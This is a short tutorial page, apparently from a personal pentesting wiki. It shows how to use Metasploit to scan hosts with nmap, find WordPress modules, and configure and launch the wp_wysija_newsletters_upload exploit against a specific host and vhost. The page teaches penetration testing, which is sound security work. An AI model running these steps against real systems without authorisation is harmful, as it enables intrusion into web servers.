 # Metasploit

The <dfn>Metasploit</dfn> Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development.

## WordPress

### Identify a Remote Host

```bash
msf > db_nmap -v -sV 192.168.111.xxx
```

![][image-1]

#### Scan an Entire Network

*   This will save the results to the Metasploit database

```bash
msf > nmap -v -sV 192.168.111.0/24 -oA subnet_1
```

*   `hosts` will list all the hosts found by `nmap`.
*   `hosts -R` will add them to the list of hosts to exploit.

### Searching for a WordPress Vulnerability

```bash
msf > search name:wordpress
```

![][image-2]

### Use an Exploit

*   This will select an exploit to use:

```bash
msf > use exploit/unix/webapp/wp_wysija_newsletters_upload
```

*   This will show you the attacks that the exploit will take advantage of:

```bash
msf exploit(wp_wysija_newsletters_upload) > show payloads
```

![][image-3]

*   This will show what software and version will be targeted:

```bash
msf exploit(wp_wysija_newsletters_upload) > show targets
```

```text
Exploit targets:

    Id  Name
    --  ----
    0   wysija-newsletter < 2.6.8
```

### Next configure the Exploit

```bash
msf exploit(wp_wysija_newsletters_upload) > show options
```

```text
Module options (exploit/unix/webapp/wp_wysija_newsletter_upload):

    Name        Current Settings    Required    Description
    ----        ----------------    --------    -----------
    Proxies                         no          A proxy chain of format type:host:port[,type:host:port][...]
    RHOST                       no          The target address
    RPORT       80                  yes         The target port
    SSL         false               no          Negotiate SSL/TLS for outgoing connections
    TARGETURI   /                   no          The base path to the wordpress application
    VHOST                           no          HTTP server virtual host

Exploit target:

    Id  Name
    --  ----
    0   wysija-newsletters < 2.6.8
```

*   Here is where we set all the options:

```bash
msf exploit(wp_wysija_newsletters_upload) > set RHOST 159.203.19.77
msf exploit(wp_wysija_newsletters_upload) > set RPORT 443
msf exploit(wp_wysija_newsletters_upload) > set SSL true
msf exploit(wp_wysija_newsletters_upload) > set VHOST myles.life
```

### Run the Exploit

```bash
msf exploit(wp_wysija_newsletters_upload) > exploit
```

[image-1]: https://myles.wiki/assets/pentesting/metasploit/575CF62D4C7E18CFD40566EA08E7D588.png

[image-2]: https://myles.wiki/assets/pentesting/metasploit/A9D412A6F8C5F3485B429E2EA41D4CB9.png

[image-3]: https://myles.wiki/assets/pentesting/metasploit/67A7D5964C96C63BA11EEA707CB4A604.png
